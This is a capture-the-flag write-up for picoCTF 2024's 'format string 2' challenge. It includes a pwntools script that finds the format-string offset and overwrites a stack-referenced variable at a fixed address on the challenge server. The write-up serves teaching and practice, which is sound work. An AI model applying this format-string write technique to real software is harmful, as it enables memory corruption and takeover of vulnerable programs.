 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#browser_webshell_solvable_<br>

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!<br>
Download the binary [here](../format-string-2).<br>
Download the source [here](../format-string-2.c).

## Solution

1. Connect with the challenge instance.
2. Review the c source code given to investigate.
3. We'll then found out that the input read is printed as hex values.

   ![image](https://github.com/user-attachments/assets/fbda7617-3b95-471c-afe9-241b8b6592d8)
   **`scanf` will take the input until it encounters any newline, tab or space. Meaning that payloads could be inputted as well. To find the flag, we need to change the value of sus.*
   
4. To overwrite the value of sus, we'll need to find the address of it and export it as a file named "objdump.txt".<br>
   `objdump -D vuln > objdump.txt`
5. Then, write a python script with pwntools to automatically find the offset and overwrite it.

   ```python
   from pwn import *

   context.log_level = "critical"
   context.binary = ELF('./vuln')
   
   p = remote('rhea.picoctf.net', 57163)
   
   def exec_fmt(payload):
       p = remote('rhea.picoctf.net', 57163)
       p.sendline(payload)
       return p.recvall()
   
   autofmt = FmtStr(exec_fmt)
   offset = autofmt.offset
   
   payload = fmtstr_payload(offset, {0x404060: 0x67616c66})
   
   p.sendline(payload)
   
   flag = p.recvall()
   
   print("Flag: ", flag)
   ```
6. Get the flag.
